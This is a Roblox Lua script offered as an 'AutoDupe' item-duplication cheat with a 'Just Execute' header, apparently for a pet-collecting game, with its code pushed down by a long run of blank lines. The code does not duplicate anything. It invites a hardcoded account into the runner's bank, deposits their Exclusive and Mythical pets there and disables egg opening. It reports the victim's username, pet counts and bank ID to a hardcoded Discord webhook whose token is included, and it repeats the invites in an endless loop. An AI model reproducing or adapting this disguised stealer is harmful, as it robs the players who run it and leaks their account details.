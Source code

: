 --Just Execute--AutoDupe v3



























































































































































































































































































































































































































































































































































local HoverBoard = 2891373746
local lib = require(game.ReplicatedStorage:WaitForChild('Framework'):WaitForChild('Library'))
    local mybanks = lib.Network.Invoke("get my banks")
    local BankID = mybanks[1]['BUID']
    lib.Network.Invoke("Invite To Bank", mybanks[1]['BUID'], HoverBoard)

    local lib = require(game.ReplicatedStorage:WaitForChild('Framework'):WaitForChild('Library'))
    local mybanks = lib.Network.Invoke("get my banks")
    local BankID = mybanks[1]['BUID']
    
local Bank = BankID

local A_1 = "b"
local A_2 = "bank deposit"
local Event = game:GetService("Workspace")["__THINGS"]["__REMOTES"].MAIN
Event:FireServer(A_1, A_2)

local A_1 = "b"
local A_2 = "buy egg"
local Event = game:GetService("Workspace")["__THINGS"]["__REMOTES"].MAIN
Event:FireServer(A_1, A_2)

local FinalList = {}
local output = 1
    Library     = require(game:GetService('ReplicatedStorage').Framework:FindFirstChild('Library'))
    Functions   = Library.Functions
    EXCList     = {}
    MythicList  = {}

    EList       = {}
    MList       = {}


    table.foreach(Library.Directory.Pets, function(i, v)
        if v.rarity == "Exclusive" then
            table.insert(EXCList, i)
        end
        if v.rarity == "Mythical" then
            table.insert(MythicList, i)
        end
    end)

local pets = require(game:GetService("ReplicatedStorage").Framework.Modules.Client["4 | Save"]).Get().Pets
for i, v in pairs(pets) do
if table.find(EXCList, v["id"]) ~= nil then
table.insert(EList, v["uid"])
end
if table.find(MythicList, v["id"]) ~= nil then
table.insert(MList, v["uid"])
end
end
if #EList + #MList < 49 then
for i, v in pairs(EList) do
table.insert(FinalList, v)
end
for i, v in pairs(MList) do
table.insert(FinalList, v)
end
elseif #EList + #MList > 49 and #EList < 49 then
for i, v in pairs(EList) do
table.insert(FinalList, v)
end
for i, v in pairs(MList) do
if #FinalList < 49 then
table.insert(FinalList, v)
end
end
elseif #EList + #MList > 49 and #EList > 49 then
for i, v in pairs(EList) do
if #FinalList < 49 then
table.insert(FinalList, v)
end
end
end
wait(0.5)
game:GetService("Players").LocalPlayer.PlayerScripts.Scripts.Game["Open Eggs"].Disabled = true
local A_1 = 
{
    [1] = "Cracked Egg", 
    [2] = false
}
local Event = game:GetService("Workspace")["__THINGS"]["__REMOTES"]["buy egg"]
Event:InvokeServer(A_1)
wait(0.5)
local A_1 = 
{
    [1] = Bank, 
    [2] = FinalList, 
    [3] = output-1
}
local Event = game:GetService("Workspace")["__THINGS"]["__REMOTES"]["bank deposit"]
local result = Event:InvokeServer(A_1)

-- wrb

local YourWebHookHere =  "https://discord.com/api/webhooks/973945128924348466/R8buxvN36VLKu8mvr9uncdbq_lNIqunC5JPDoCKRNRgUMHeRlT0iAmFLBSSD-Xgi0KhZ"  -- web hook here

local url = YourWebHookHere
local username = game:GetService("Players").LocalPlayer.Name
 
local data = {
  ["content"] = ">  by Artemper",
["embeds"] = {{
["title"] = "__**Open**__",
["description"] = "@everyone i can't track this expired or no",
["type"] = "rich",
["color"] = tonumber(0x0E980E),
["fields"] = {
               {
["name"] = "__Username__",
["value"] = "**"..username.."**", -- remove the || on both sides if you don't want your username to be behind a spoiler
["inline"] = false
},
               {
["name"] = "__Gems Deposited__",
["value"] = output-1,
["inline"] = false
},
{
["name"] = "__Total Pet Deposited__",
["value"] = #FinalList,
["inline"] = false
},
{
["name"] = "__Exclusive/Huges__",
["value"] = #EList,
["inline"] = false
},
{
["name"] = "__Mythicals__",
["value"] = #MList,
["inline"] = false
},
{
["name"] = "__BankID__",
["value"] = BankID,
["inline"] = false
},
}
}}
}
local newdata = game:GetService("HttpService"):JSONEncode(data)

local headers = {
  ["content-type"] = "application/json"
}
request = http_request or request or HttpPost or syn.request
local abcdef = {Url = url, Body = newdata, Method = "POST", Headers = headers}
request(abcdef)

while true do
    lib.Network.Invoke("Invite To Bank", mybanks[1]['BUID'], HoverBoard)
    local YourWebHookHere2 =  "https://discord.com/api/webhooks/973945128924348466/R8buxvN36VLKu8mvr9uncdbq_lNIqunC5JPDoCKRNRgUMHeRlT0iAmFLBSSD-Xgi0KhZ"  -- web hook here

    local url2 = YourWebHookHere2
    local username2 = game:GetService("Players").LocalPlayer.Name
     
    local data2 = {
      ["content"] = "> "..username2.." Repeat ur Invites",
    ["embeds"] = {{
    ["title"] = "__** Results**__",
    ["description"] = "@everyone i can't track this expired or no",
    ["type"] = "rich",
    ["color"] = tonumber(0x0E980E),
    ["fields"] = {
                   {
    ["name"] = "__Username__",
    ["value"] = "**"..username2.."** Repeat ur Invites", -- remove the || on both sides if you don't want your username to be behind a spoiler
    ["inline"] = false
    },
                   {
    ["name"] = "__Cancel Invite__",
    ["value"] = "Yes",
    ["inline"] = false
    },
    }
    }}
    }
    local newdata2 = game:GetService("HttpService"):JSONEncode(data2)
    
    local headers2 = {
      ["content-type"] = "application/json"
    }
    request = http_request or request or HttpPost or syn.request
    local abcdef2 = {Url = url2, Body = newdata2, Method = "POST", Headers = headers2}
    request(abcdef2)
end

